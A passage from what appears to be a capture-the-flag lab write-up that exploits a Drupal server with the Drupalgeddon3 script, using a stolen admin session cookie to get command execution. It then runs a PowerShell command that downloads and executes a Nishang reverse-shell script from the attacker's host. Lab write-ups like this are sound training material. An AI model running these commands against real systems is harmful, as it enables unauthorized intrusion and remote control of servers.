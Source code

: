 First I’ll show that I can log in. I’ll use the Firefox plugin “Cookie Manager” to add a cookie “SESSd873f26fc11f2b7e6e4aa0f6fce59913=GCGJfJI7t9GIIV7M7NLK8ARzeURzu83jxeqI2\_qcDGs”. On refreshing, I see I’m now logged in as admin:

![1551978371907](https://0xdfimages.gitlab.io/img/1551978371907.png)

I also will want to get the node id of an existing node. If I click on “Find Content”, I can get a list of current content:

![1551979251624](https://0xdfimages.gitlab.io/img/1551979251624.png)

![1551979276991](https://0xdfimages.gitlab.io/img/1551979276991.png)

Clicking on the “REST” link takes me to `http://10.10.10.9/node/1`, so I’ll take it that node 1 exists.

#### Exploit

There’s a [python script](https://raw.githubusercontent.com/oways/SA-CORE-2018-004/master/drupalgeddon3.py) to execute the attack for me. I’ll grab a copy and run it to see it requires the url, the session cookie, an existing node, and the command:

```

root@kali# python drupalgeddon3.py 

[Usage]
python drupalgeddon3.py [URL] [Session] [Exist Node number] [Command]

[Example]
python drupalgeddon3.py http://target/drupal/ "SESS60c14852e77ed5de0e0f5e31d2b5f775=htbNioUD1Xt06yhexZh_FhL-h0k_BHWMVhvS6D7_DO0" 6 "uname -a"

```

Using the cookie info from the first exploit and the node I found earlier, I can now get RCE:

```

root@kali# python drupalgeddon3.py http://10.10.10.9/ "SESSd873f26fc11f2b7e6e4aa0f6fce59913=GCGJfJI7t9GIIV7M7NLK8ARzeURzu83jxeqI2_qcDGs" 1 "whoami"
nt authority\iusr

```

#### Shell - Nishang

So I can get a shell this way with Nishang:

```

root@kali# python drupalgeddon3.py http://10.10.10.9/ "SESSd873f26fc11f2b7e6e4aa0f6fce59913=GCGJfJI7t9GIIV7M7NLK8ARzeURzu83jxeqI2_qcDGs" 1 "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.14/shell.ps1')"

```
